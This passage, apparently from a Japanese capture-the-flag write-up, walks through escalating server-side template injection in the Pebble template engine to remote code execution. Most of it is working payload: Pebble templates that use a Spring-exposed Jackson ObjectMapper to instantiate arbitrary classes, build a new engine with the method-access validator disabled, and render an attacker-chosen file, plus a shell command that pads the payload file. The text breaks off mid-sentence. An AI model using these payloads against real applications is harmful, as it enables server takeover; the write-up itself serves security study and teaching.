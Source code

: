 jackson-databindライブラリのTypeFactoryクラスの

- https://github.com/FasterXML/jackson-databind/blob/jackson-databind-2.13.2.2/src/main/java/com/fasterxml/jackson/databind/type/TypeFactory.java#L369

が利用できそうである。
```
{% set stringClass = beans.get("jacksonObjectMapper").getTypeFactory().findClass("java.lang.String") %}
```
で`String`の`Class`インスタンスが手に入る。続いて`Class`インスタンスから元のインスタンスを生成したい。これは
```
{{ beans.get("jacksonObjectMapper").readValue("{}", stringClass) }}
```
で可能。デフォルトコンストラクタが定義されていることが条件になるが、これで好きなクラスのインスタンスを生成できるようになった。

やっぱりJacksonのObjectMapperって便利だな。

### パート4: SSTI to RCE（転）

あとはよしなにRCEまでのGadgetを組み立てれば良い。

試行錯誤したらできた（`evil.pebble`）:
```
{% set accessValidatorClass = beans.get("jacksonObjectMapper").getTypeFactory().findClass("com.mitchellbosecke.pebble.attributes.methodaccess.NoOpMethodAccessValidator") %}
{% set accessValidator =  beans.get("jacksonObjectMapper").readValue("{}", accessValidatorClass) %}

{% set builderClass = beans.get("jacksonObjectMapper").getTypeFactory().findClass("com.mitchellbosecke.pebble.PebbleEngine$Builder") %}
{% set builder =  beans.get("jacksonObjectMapper").readValue("{}", builderClass) %}

{% set engine = builder.methodAccessValidator(accessValidator).build() %}
{% set loader = engine.getLoader() %}
{{ loader.setPrefix("templates") }}
{{ loader.setSuffix("") }}

{% set rceFileName = request.getParameter("rceFileName") %}

{% set template = engine.getTemplate(rceFileName) %}

{{ template.evaluate(response.getWriter()) }}
```
なにをやっているかと言うと、

1. `NoOpMethodAccessValidator`のインスタンスを生成 → 変数`accessValidator`に代入
2. `PebbleEngine$Builder`のインスタンスを生成 → 変数`builder`に代入
3. `builder`から`accessValidator`をvalidatorに設定した`PebbleEngine`をbuildし、変数`engine`に代入
4. リクエストパラメータ`rceFileName`を読み込んで、変数`rceFileName`に代入
5. `engine`で`rceFileName`のファイルを読み込んで評価した内容をHTTPレスポンスに流す

でPebbleEngineの内部でmitigationを消したPebbleEngineを作成してそれを用いて任意ファイルをレンダリング可能にした。

```
$ seq 50000 | sed 's/^.*$/test/' >> evil.pebble
```
でファイルを巨大にしたのち、パート1~2で行った攻撃を行ってブラウザで
